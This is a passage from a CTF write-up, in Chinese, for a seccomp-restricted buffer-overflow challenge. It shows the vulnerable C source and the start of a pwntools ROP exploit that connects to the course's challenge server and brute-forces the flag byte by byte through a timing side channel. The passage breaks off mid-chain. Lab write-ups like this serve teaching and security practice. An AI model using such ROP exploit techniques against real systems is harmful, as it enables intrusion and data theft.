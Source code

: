 ```c=
    int fd;
    scmp_filter_ctx ctx;

    fd = open("/home/chal/flag", O_RDONLY);
    if (fd == -1)
        perror("open"), exit(1);
    read(fd, flag, 0x30);
    close(fd);

    write(1, "talk is cheap, show me the rop\n", 31);
    read(0, addr, 0x1000);

    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    return 0;
}
```

程式把/home/flag/flag 讀進 char* flag，然後23行給了一個長度0x1000 的 buffer overflow

```python
from pwn import *
import time
# p = remote('edu-ctf.zoolab.org', 10012)


context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

rbp = 0x411740

#用ROPgadet找出地址
add_rax_rdx_ret = 0x00000000004106bf
ebfe = 0x0000000000403a8d # 0xEBFE 是一個短跳指令, 作用是跳到這個指令原本的位址
pop_rdi_ret = 0x0000000000401812
pop_rsi_ret = 0x0000000000402798
pop_rdx_ret = 0x000000000040171f
pop_rax_ret = 0x0000000000458237

mov_byte_rdi_from_dl_ret = 0x0000000000442c53
strcmp_pop5reg_ret= 0x0000000000485307
movbyte_rdi_rsi_ret = 0x0000000000454aa0
clean_qword_rax8_ret = 0x0000000000427114



flag = ""
for i in range(50):
    for byte in range(0x20, 0x7f):
        p = remote('edu-ctf.zoolab.org', 10012)
        # p = process('./chal')
        print(flag, chr(byte))
        flagAddress = 0x4de2e0+i
        guessByte = flagAddress + 0x50



        ROP = flat(
            #clean guess string
            pop_rax_ret, guessByte-8,
```